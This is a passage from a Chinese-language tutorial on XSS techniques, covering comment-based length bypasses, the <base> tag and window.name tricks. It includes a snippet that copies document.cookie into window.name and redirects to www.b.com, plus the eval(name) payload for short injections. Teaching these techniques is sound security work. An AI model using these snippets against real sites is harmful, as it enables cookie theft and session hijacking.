 3. 再某些环境下，可以利用注释符绕过长度限制。

    比如我们能控制两个文本框，第二个文本框允许写入更多的字节。此时可以利用 HTML 的注释符号，把两个文本框之间的代码全部注释掉，从而 “打通” 两个 `<input>` 标签。

### `<base>` 标签

这个标签的作用是定义页面上使用 “相对路径” 标签的 `hosting` 地址。比如：

```html
<body>
    <base href="http://www.google.com/" />
    <img src="/int1/en_ALL/images/srpr/logolw.png" />
</body>
```

上面这段代码将会使得 `<img>`  标签中的图片从 `http://www.google.com/int1/en_ALL/images/srpr/logolw.png` 取得。

可见 `<base>` 标签是个极其危险的标签。所以在设计 XSS 安全方案时，一定要过滤掉这个非常危险的标签。

### `window.name` 的使用

`window.name` 对象是一个神奇的东西。如果对当前窗口的 `window.name` 对象赋值，没有特殊字符的限制。因为 window 对象是浏览器的窗体，而非 document 对象，很多时候不受同源策略的限制。攻击者利用这个对象，可以实现跨页面传递数据。

比如 `www.a.com/index.html` 的代码如下：

```html
<body>
    <script>
        window.name = document.cookie;
        window.location = "http://www.b.com/index.html";
    </script>
</body>
```

这段代码将把在域 `www.a.com` 中的 `cookie` 携带到 `www.b.com` 这个域中。在后者中可以访问这个内容：

```html
<body>
    <script>
        console.log(window.name);
    </script>
</body>
```

使用 `window.name` 可以缩短 XSS Payload 的长度，在目标站点只需要执行以下代码即可：

```javascript
eval(name);
```

这个只有 11 个字符。

这个技巧为安全研究者 luoluo 发现，另外它还整理了许多 XSS 长度绕过技巧（见 《突破 XSS 字符数量限制执行任意 JS 代码》）。

## 利用反射型 XSS

### Apache Expect Header XSS
